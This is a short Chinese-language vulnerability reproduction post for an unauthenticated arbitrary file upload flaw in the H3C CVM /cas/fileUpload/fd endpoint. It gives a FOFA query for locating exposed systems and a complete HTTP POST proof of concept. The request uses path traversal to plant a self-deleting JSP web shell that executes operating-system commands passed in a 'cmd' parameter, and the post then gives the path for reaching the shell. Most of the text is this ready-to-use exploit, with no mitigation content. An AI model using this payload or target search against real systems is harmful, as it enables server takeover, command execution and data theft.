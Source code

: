 ## H3C-CVM-fd接口前台任意文件上传漏洞复现

 H3C CVM /cas/fileUpload/fd 接口存在任意文件上传漏洞，未授权的攻击者可以上传任意文件，获取 webshell，控制服务器权限，读取敏感信息等。

## fofa

```javascript
app="H3C-CVM"
```

## poc

```javascript
POST /cas/fileUpload/fd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.123 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=WebKitFormBoundaryMMqEBbEFHlzOcYq4
Connection: close

--WebKitFormBoundaryMMqEBbEFHlzOcYq4
Content-Disposition: form-data; name="token"

/../../../../../var/lib/tomcat8/webapps/cas/js/lib/buttons/a.jsp
--WebKitFormBoundaryMMqEBbEFHlzOcYq4
Content-Disposition: form-data; name="file"; filename="a.jsp"
Content-Type: image/png

<% java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b,0,a));}out.print("</pre>");new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
--WebKitFormBoundaryMMqEBbEFHlzOcYq4--
```

![image-20241106171738287](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411061717362.png)

访问文件路径

```
/cas/js/lib/buttons/a.jsp
```